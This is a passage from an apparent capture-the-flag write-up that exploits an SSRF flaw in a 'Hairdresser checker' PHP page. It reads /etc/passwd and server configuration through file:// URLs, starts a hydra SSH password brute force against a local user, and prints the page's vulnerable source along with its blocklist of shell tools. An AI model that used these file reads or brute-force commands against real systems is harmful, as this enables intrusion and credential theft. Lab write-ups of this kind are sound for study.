 But at least I have some form of SSRF vulnerability I can exploit. Let's see if we can grab sensitive files. First try `/etc/passwd` with url `file:///etc/passwd`:

![](img/web-exposed-etc-passwd.png)

It works! Some interesting users:

- www-data (likely this app)
- dnsmasq (DNS service)
- mysql (DB service)
- `maria:x:1000:1000:maria,,,:/home/maria:/bin/bash` - a local username!

Let's see if we can guess Maria's password for ssh while we continue to poke around:

```sh
❯ hydra -V -f -l 'maria' -P /mnt/vm-share/rockyou.txt ssh://10.10.10.24
```

Now try to grab other files:

- `file:///etc/nginx/nginx.conf` - nothing interesting here
- `file:///etc/nginx/sites-enabled/default` - shows web-root at `/var/www/html`
- `file:///var/www/html/exposed.php` - source of this web page!

```php+HTML
<html>
	<head>
		<title>Hairdresser checker</title>
	</head>
	<body>
	<form action='exposed.php' method='POST'>
		<span>
		<p>
		Enter the Hairdresser's location you would like to check. Example: http://localhost/test.html
		</p>
		</span>
		<input type='text' name='formurl' id='formurl' width='50' value='http://localhost/test.html'/>
		<input type='submit' name='submit' value='Go' id='submit' />
	</form>
	<span>
		<?php
			if(isset($_POST['formurl'])){
			echo "<p>Requesting Site...</p>";
			$userurl=$_POST['formurl'];
			$naughtyurl=0;
			$disallowed=array('%','!','|',';','python','nc','perl','bash','&','#','{','}','[',']');
			foreach($disallowed as $naughty){
				if(strpos($userurl,$naughty) !==false){
					echo $naughty.' is not a good thing to put in a URL';
					$naughtyurl=1;
				}
			}
```